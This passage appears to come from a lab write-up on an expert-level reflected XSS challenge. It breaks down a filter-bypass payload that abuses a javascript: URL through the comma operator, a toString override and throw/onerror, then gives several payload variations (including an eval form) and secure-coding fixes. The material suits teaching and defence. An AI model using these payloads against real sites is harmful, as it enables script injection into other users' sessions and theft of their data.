
Our method:
window + ''
└── Automatic toString call
    └── No parentheses needed
        └── Indirect execution
            └── Bypasses syntax restrictions! 💡

The complete trigger chain:

Code: toString=x,window+''

Step 1: Assign function to toString
toString = x
└── window.toString = (our arrow function)

Step 2: Force type coercion
window + ''
└── Add window to empty string
    ↓
JavaScript: "Need to convert window to string"
    ↓
Calls window.toString()
    ↓
toString is our function!
    ↓
Function executes:
x()
    ↓
Function body runs:
{throw/**/onerror=alert,1337}
    ↓
throw statement executes
    ↓
onerror=alert assignment
    ↓
throw 1337
    ↓
Exception caught by onerror
    ↓
alert(1337) displays! ✓

Other type coercion methods:

String():
String(window)
└── Calls toString
    └── Would work but needs parentheses

Template literal:
`${window}`
└── Calls toString
    └── Would work!
    └── Alternative technique ✓

Concatenation:
window + ''   ← We use this
└── Simple
    └── Effective
        └── Minimal syntax! 💡

Why + '' specifically?
└── + operator with string forces coercion
    └── '' is shortest string
        └── Minimal characters
            └── Concise payload! ✓
```

---

### **Comma Operator Magic**

```js
Understanding the comma operator:

What is the comma operator?

Syntax: expression1, expression2, expression3
└── Evaluates all expressions left to right
    └── Returns value of LAST expression

Example:
var x = (1, 2, 3);
└── Evaluates: 1, then 2, then 3
    └── Returns: 3
        └── x = 3

Multiple side effects:
var x = (a=1, b=2, a+b);
└── a=1 (assigns 1 to a)
    └── b=2 (assigns 2 to b)
        └── a+b (returns 3)
            └── x = 3

In our payload:

Complete expression:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

Breaking into comma-separated parts:
1. '},x=x=>{throw/**/onerror=alert,1337}
2. toString=x
3. window+''
4. {x:'

Evaluation order:

Part 1: '},x=x=>{...}
└── Closes string
    └── Defines arrow function x
        └── Returns: the function

Part 2: ,toString=x
└── Assigns x to toString
    └── Returns: the function

Part 3: ,window+''
└── Triggers type coercion
    └── Calls toString (our function)
        └── EXECUTION HAPPENS HERE! 💥
            └── Returns: (doesn't matter, exception thrown)

Part 4: ,{x:'
└── Object literal
    └── Balances syntax
        └── Returns: object

The entire comma expression:
(part1, part2, part3, part4)
└── All evaluated sequentially
    └── Part 3 executes our code
        └── Returns value of part 4
            └── But doesn't matter, alert already shown! ✓

Why comma operator is perfect here:

Allows multiple statements in expression:
└── Define function
    └── Override property
        └── Trigger execution
            └── Balance syntax
                └── All in one expression! 💡

In function argument context:
fetch(arg1, arg2, arg3)
└── Commas separate arguments

But our comma is INSIDE first argument:
fetch('...', expr1, expr2, expr3, '...')
└── Creates weird syntax
    └── But still valid JavaScript!
        └── fetch gets unusual arguments
            └── Doesn't matter, our code already ran! ✓

The genius of comma chaining:
'},x=x=>{...},toString=x,window+'',{x:'
└── Each comma continues expression
    └── Sequential execution
        └── All side effects happen
            └── window+'' triggers our function
                └── alert appears
                    └── Mission accomplished! 🎯
```

---

## 🚀 **Attack Variations**

### **Variation 1: Different Alert Messages**

```javascript
Original: throw/**/onerror=alert,1337
└── Displays: "1337"

Variation with different number:
throw/**/onerror=alert,9999
└── Displays: "9999"

Variation with string (if quotes allowed):
throw/**/onerror=alert,"XSS"
└── Displays: "XSS"

But quotes might be blocked:
└── Stick with numbers for reliability ✓
```

---

### **Variation 2: Using Different Error Handlers**

```javascript
Original uses onerror:
throw/**/onerror=alert,1337

Could use different properties:
throw/**/onload=alert,1337
└── But onload might not trigger

Alternative: Override other methods
throw/**/valueOf=alert,Number(window)
└── valueOf called when converting to number
    └── Number(window) triggers valueOf
        └── alert executes! ✓

But onerror is most reliable:
└── Always triggered by throw
    └── Specifically designed for exceptions
        └── Best choice! 💡
```

---

### **Variation 3: Template Literal Trigger**

```javascript
Instead of: window+''

Use template literal:
`${window}`
└── Also calls toString
    └── Same effect! ✓

Complete payload:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,`${window}`,{x:'

URL-encoded:
%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,`${window}`,{x:%27

Advantages:
✅ Alternative to + operator
✅ Clearer intent
✅ Same functionality

Disadvantages:
❌ Backticks might be filtered
❌ Template literals less common
❌ Original is simpler! ✓
```

---

### **Variation 4: Multiple Function Calls**

```javascript
Chain multiple functions:
throw/**/onerror=x=>alert(x),1337

Breakdown:
onerror = x => alert(x)
└── Arrow function that calls alert
    └── Parameter x passed to alert

throw 1337
└── Exception value: 1337
    └── Passed to onerror(1337)
        └── Calls alert(1337)! ✓

But this needs parentheses:
alert(x)  ← Parentheses!
└── May not work depending on filter
    └── Original method better ✓
```

---

### **Variation 5: Using eval Instead of alert**

```javascript
If alert is blocked but eval allowed:

throw/**/onerror=eval,`alert(1337)`
└── eval executes string as code
    └── Calls alert(1337)

Or:
throw/**/onerror=eval,"alert(1337)"
└── Same effect with quotes

Useful when:
└── alert function blocked
    └── But eval available
        └── Can execute any code! 💥

More dangerous:
eval("malicious code")
└── Can execute complex attacks
    └── Cookie theft, AJAX requests, etc.
        └── Beyond simple alert! ⚠️
```

---

### **Variation 6: Alternative toString Triggers**

```javascript
Original: window+''

Alternative 1: String concatenation
''+window
└── Same effect, different order

Alternative 2: String constructor
String(window)
└── Needs parentheses
    └── Might be blocked

Alternative 3: Template literal (as shown)
`${window}`
└── Works well!

Alternative 4: Explicit toString call
window.toString()
└── Needs parentheses
    └── Not usable in complex context

Best choice: window+''
└── Minimal syntax
    └── No parentheses
        └── Reliable! ✓
```

---

### **Variation 7: Using Different Global Objects**

```javascript
Instead of window, use other globals:

Using document:
toString=x,document+''
└── document.toString() triggers
    └── Executes our function! ✓

Using self:
toString=x,self+''
└── self is window in browser
    └── Same effect! ✓

Using this (in global scope):
toString=x,this+''
└── this is window in global context
    └── Works! ✓

All equivalent in browser:
window === self === this (in global scope)
└── Any can trigger toString
    └── window most explicit
        └── Preferred! 💡
```

---

### **Variation 8: Without Arrow Functions (Advanced)**

```javascript
If arrow functions blocked:

Using regular function syntax:
'},x=function(){throw/**/onerror=alert,1337},toString=x,window+'',{x:'

Longer but same logic:
x = function() {...}
└── Traditional function definition
    └── Still provides block for throw
        └── Would work! ✓

But arrow functions are shorter:
x => {...}  vs  function(){...}
└── Saves characters
    └── Cleaner payload
        └── Preferred! 💡
```

---

## 📚 **Additional Concepts**

### **JavaScript Contexts in XSS**

```HTML
Different JavaScript contexts:

Context 1: Inside <script> tag
<script>
    var data = 'USER_INPUT';
</script>
└── Can inject: '; alert(1); //

Context 2: In event handler
<div onclick="doSomething('USER_INPUT')">
└── Can inject: '); alert(1); //

Context 3: In javascript: URL
<a href="javascript:doSomething('USER_INPUT')">
└── Can inject: '); alert(1); //
└── This lab's context! ✓

Context 4: In inline script variable
<script>var x='USER_INPUT';</script>
└── Can inject: '; alert(1); //

All similar but have subtle differences:
└── Different closing syntax needed
    └── Different filter bypasses required
        └── Must analyze each case! 🎯

This lab's specific context:

HTML level:
<a href="...">

JavaScript URL level:
href="javascript:..."

Function call level:
fetch('...')

String level:
'USER_INPUT'

Four nested contexts:
└── Must escape string
    └── Inject code in function
        └── Execute in javascript: URL
            └── All while in HTML! ⚠️
```

---

### **Why Traditional Payloads Fail**

```r
Common XSS payloads that don't work here:

Payload 1: HTML injection
<script>alert(1)</script>
❌ We're inside JavaScript string
❌ Angle brackets likely blocked
❌ Wrong context!

Payload 2: Simple string escape
');alert(1);//
✅ Syntax might work
❌ But too simple for expert lab
❌ May have additional filters

Payload 3: Using spaces
'); throw onerror=alert; throw 1337;//
❌ Spaces are blocked!
❌ Filter rejects payload

Payload 4: Using parentheses for onerror
');onerror=()=>alert(1);throw 1;//
✅ Logic is sound
❌ But needs parentheses for arrow function
❌ May be blocked in complex ways

Payload 5: Direct function call
');alert(1337);//
✅ Would work in simple case
❌ Expert lab needs advanced technique
❌ Demonstrates sophisticated understanding

Why the official solution is needed:
└── Bypasses space filter with /**/
    └── Uses advanced JavaScript features
        └── Arrow functions
            └── Exception handling
                └── Property override
                    └── Type coercion
                        └── Shows expert-level knowledge! 💡
```

---

### **Browser-Specific Behaviors**

```r
This exploit in different browsers:

Chrome/Edge (Chromium):
✅ Full support
✅ Arrow functions work
✅ toString override works
✅ Type coercion works
└── Exploit works perfectly! ✓

Firefox:
✅ Full support
✅ All features supported
✅ Exploit works! ✓

Safari:
✅ Modern versions support
✅ Arrow functions supported
✅ Exploit should work! ✓

Internet Explorer 11:
❌ Limited arrow function support
❌ May need traditional functions
❌ Exploit might fail

Edge Legacy (pre-Chromium):
⚠️ Partial support
⚠️ May need adjustments

For maximum compatibility:
└── Use traditional function syntax
    └── Instead of arrow functions
        └── But payload becomes longer! ⚠️

This lab targets modern browsers:
└── Arrow function support required
    └── ES6 features needed
        └── Modern browser assumed ✓
```

---

### **The Complete Technical Breakdown**

```HTTP
Why each part is absolutely necessary:

Part: '},
Why: Closes existing string context
Without it: Syntax error (unclosed string)
Alternative: None (must close string)

Part: x=x=>{...}
Why: Creates block for throw statement
Without it: throw cannot be used (not in block)
Alternative: function(){...} (longer)

Part: throw
Why: Creates exception to trigger onerror
Without it: No way to call onerror automatically
Alternative: Could manually call onerror, but needs parentheses

Part: /**/
Why: Separator without space character
Without it: Filter blocks payload (space not allowed)
Alternative: None that work as well

Part: onerror=alert
Why: Assigns alert to exception handler
Without it: Exception not caught by alert
Alternative: Other handlers, but onerror most reliable

Part: ,1337
Why: Provides value to throw and display
Without it: No argument passed to alert
Alternative: Other values/messages

Part: ,toString=x
Why: Override toString to trigger execution
Without it: Our function never called
Alternative: Other property overrides (less reliable)

Part: ,window+''
Why: Triggers toString via type coercion
Without it: Function defined but not executed
Alternative: `${window}` or String(window)

Part: ,{x:'
Why: Creates object to balance syntax
Without it: Syntax error (unmatched quotes)
Alternative: Other syntax balancing (more complex)

Every single part is essential:
└── Remove any part → payload breaks
    └── Change any part → may break
        └── Perfectly balanced! ⚔️

The payload is minimalist:
└── No unnecessary characters
    └── Each part serves specific purpose
        └── Optimized for character restrictions
            └── Expert-level engineering! 💡
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Proper Output Encoding**

```javascript
// ❌ VULNERABLE - Direct reflection
const searchTerm = request.query.search;
const link = `<a href="javascript:fetch('/analytics?searchTerms=${searchTerm}').finally(() => window.location='/')">Back</a>`;

// ✅ SECURE - Encode for JavaScript context
const searchTerm = request.query.search;
const encoded = searchTerm
    .replace(/\\/g, '\\\\')  // Escape backslashes
    .replace(/'/g, "\\'")     // Escape single quotes
    .replace(/"/g, '\\"')     // Escape double quotes
    .replace(/\n/g, '\\n')    // Escape newlines
    .replace(/\r/g, '\\r');   // Escape carriage returns

const link = `<a href="javascript:fetch('/analytics?searchTerms=${encoded}').finally(() => window.location='/')">Back</a>`;

// Even better: Use library
const encodedJS = JavaScriptEncoder.encode(searchTerm);
const link = `<a href="javascript:fetch('/analytics?searchTerms=${encodedJS}')...">Back</a>`;

// How it protects:
// Input: '},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
// Encoded: \'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+\'\',{x:\'
// Result: Appears as literal string, doesn't execute ✓
```

---

### **Fix 2: Avoid javascript: URLs Entirely**

```javascript
// ❌ VULNERABLE - javascript: URL
<a href="javascript:fetch('/analytics?searchTerms=USER_INPUT').finally(() => window.location='/')">Back</a>

// ✅ SECURE - Use data attributes + event listeners
<a href="/" data-search-term="USER_INPUT" class="back-link">Back to blog</a>

<script>
document.querySelectorAll('.back-link').forEach(link => {
    link.addEventListener('click', function(e) {
        e.preventDefault();
        const searchTerm = this.dataset.searchTerm;
        
        // searchTerm is just data, not code
        fetch(`/analytics?searchTerms=${encodeURIComponent(searchTerm)}`)
            .finally(() => {
                window.location = '/';
            });
    });
});
</script>

// Benefits:
// ✅ No javascript: URL execution context
// ✅ User input is data, not code
// ✅ Proper separation of concerns
// ✅ Easier to secure ✓
```

---

### **Fix 3: Content Security Policy (CSP)**

```javascript
// ✅ SECURE - Strict CSP headers
response.setHeader('Content-Security-Policy', 
    "default-src 'self'; " +
    "script-src 'self' 'nonce-RANDOM123'; " +  // No unsafe-inline
    "object-src 'none'; " +
    "base-uri 'self'"
);

// HTML with nonce:
<script nonce="RANDOM123">
// Trusted code only
document.querySelectorAll('.back-link').forEach(...);
</script>

// javascript: URLs are blocked:
// <a href="javascript:alert(1)">  ← CSP blocks this!

// How it protects:
// └── javascript: URLs treated as inline scripts
//     └── Without 'unsafe-inline': blocked
//         └── XSS prevented! ✓

// Note: Generate new nonce per request
const nonce = crypto.randomBytes(16).toString('base64');
```

---

### **Fix 4: Input Validation**

```javascript
// ✅ SECURE - Strict input validation
function validateSearchTerm(input) {
    // Allow only alphanumeric and spaces
    if (!/^[a-zA-Z0-9\s]*$/.test(input)) {
        throw new Error('Invalid search term');
    }
    
    // Length limit
    if (input.length > 100) {
        throw new Error('Search term too long');
    }
    
    return input;
}

// Usage:
const searchTerm = validateSearchTerm(request.query.search);
// Now safe to use (only contains safe characters)

// What this blocks:
// Input: '},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
// Result: ❌ Rejected (contains { } = > , ' characters)

// Input: test search
// Result: ✅ Accepted (only letters and space)
```

---

### **Fix 5: Use POST Instead of GET**

```javascript
// ❌ VULNERABLE - Search term in URL
GET /post?postId=5&search=USER_INPUT

// ✅ BETTER - Search via POST
<form action="/search" method="POST">
    <input type="text" name="search">
    <button>Search</button>
</form>

// Server-side:
app.post('/search', (req, res) => {
    const searchTerm = req.body.search;
    // Process search, then redirect
    res.redirect('/results');
});

// Benefits:
// ✅ URL doesn't contain user input
// ✅ Harder to craft malicious links
// ✅ Still need output encoding!
// ✅ Defense in depth ✓

// Note: This alone doesn't prevent XSS
// └── Must still encode output properly
//     └── But makes exploitation harder ✓
```

---
